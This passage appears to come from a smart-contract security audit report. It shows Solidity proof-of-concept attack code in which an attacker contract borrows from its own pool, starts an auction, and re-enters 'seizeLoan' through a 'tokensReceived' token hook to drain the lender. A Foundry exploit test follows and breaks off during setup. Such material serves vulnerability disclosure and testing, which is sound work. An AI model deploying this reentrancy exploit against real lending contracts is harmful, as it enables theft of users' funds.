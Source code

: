 ```solidity
        // (2) Take a loan in his own pool
        Borrow memory b = Borrow({
            poolId: poolId,
            debt: 1,
            collateral: 1_000*10**18
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;        
        lender.borrow(borrows);
        // (3) Take a second loan in his own pool to increase the pool `outstandingLoans` amount
        b = Borrow({
            poolId: poolId,
            debt: 99,
            collateral: 1
        });
        borrows = new Borrow[](1);
        borrows[0] = b;        
        lender.borrow(borrows);
        // (4) Put the first loan up for auction
        uint256 loanId = 0;
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = loanId;
        lender.startAuction(loanIds);      
    }

    function attackPart2(address _loanToken, address _collateralToken) external {
        // (4) Seize the loan
        auctionEnded = true;
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;
        lender.seizeLoan(loanIds);
        // (8) Send the funds back to the attacker
        ERC20(_loanToken).transfer(msg.sender, ERC20(_loanToken).balanceOf(address(this)));
        ERC20(_collateralToken).transfer(msg.sender, ERC20(_collateralToken).balanceOf(address(this)));
    }

    function tokensReceived(address from, address /*to*/, uint256 /*amount*/) external {
        require(msg.sender == loanToken, "not loan token");
        if (from == address(lender) && auctionEnded) {
            uint256 lenderBalance = ERC20(loanToken).balanceOf(address(lender));
            if (lenderBalance >= 1_000*10**18) {
                // (6) Re-enter the `seizeLoan` function
                uint256[] memory loanIds = new uint256[](1);
                loanIds[0] = 0;
                lender.seizeLoan(loanIds);
            }          
        }
    }

}
```
Here are the tests that can be added to `Lender.t.sol` to illustrate the steps of an attacker:
```solidity
function test_exploit() public {
    address attacker = address(0x5);
    // Setup
    vm.startPrank(lender1);
    WeirdToken weirdToken = new WeirdToken(1_000_000*10**18);
    weirdToken.transfer(address(lender), 10_000*10**18); 
    weirdToken.transfer(address(attacker), 1_000*10**18 + 1);
    loanToken.transfer(address(attacker), 100);

```
